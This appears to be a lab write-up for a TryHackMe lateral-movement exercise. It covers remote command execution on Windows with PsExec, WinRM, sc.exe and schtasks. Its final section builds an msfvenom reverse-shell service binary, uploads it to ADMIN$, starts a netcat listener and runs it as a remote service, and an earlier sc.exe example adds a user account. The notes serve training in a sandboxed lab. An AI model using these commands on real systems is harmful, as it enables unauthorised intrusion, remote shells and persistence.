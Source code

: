 # Spawning processes remotely

| Remote Session           | Port(s)                     | Requirements                               |
|--------------------------|-----------------------------|--------------------------------------------|
| PsExec                   | TCP/445                     | Account must be an administrator           |
| WinRM over HTTP          | TCP/5985                    | Group Memberships: Remote Management Users |
| WinRM over HTTPS         | TCP/5986                    | Group Memberships: Remote Management Users |
| DCE/RPC                  | TCP/135,<br>TCP/49152-65535 | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/445                     | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/139                     | Group Memberships: Administrators          |

## PsExec

| ![PsExex Auth Flow](../../_static/images/psexec.png) |
|:--:|
| Authentication workflow |

1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service 
binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.

Start a remote command prompt:

    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe

## WinRM

PowerShell:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    $session = New-PSSession -ComputerName target-ip -Credential $credential
    $session | Enter-PSSession

Cleanup:

    $session | Remove-PSSession

A single command:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}

## sc.exe

Remote command execution by registering and running services on a host. The service is configured to run a command 
at start up.

| ![RCP](../../_static/images/sc-RPC.png) |
|:--:|
| Try authenticating to the Service Control Manager using RPC first. |

If RPC fails:

| ![SMB](../../_static/images/sc-SMB.png) |
|:--:|
| Try communicating using an SMB named pipe |

Register the fake service (`binpath` is the command to run on the host)

    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto

Start the remote service to run the command:

    sc.exe \\<IP Target> start <fakeservice>

Stop and cleanup:

    sc.exe \\<IP Target> stop <fakeservice>
    sc.exe \\<IP Target> delete <fakeservice>

## schtasks

Remote command/payload execution by registering a scheduled task on a host.

Create and run Task:

    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
    schtasks /s target-ip /run /tn "Task"

Cleanup:

    schtasks /s target-ip /tn "Task" /DELETE /F

## Get flag

Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to 
the attack machine (Kali VM in my case).

Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:

    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com

On attack machine, create a service binary payload:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe

Use the given credentials to transfer the file to the IIS server:

    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>

Start a listener to receive the reverse shell from the IIS server:

    sudo nc -lnvp 4444

Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):

    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
    sc.exe \\thmiis.za.tryhackme.com start pwniis

Run the `flag.exe` file on the users desktop on THMIIS.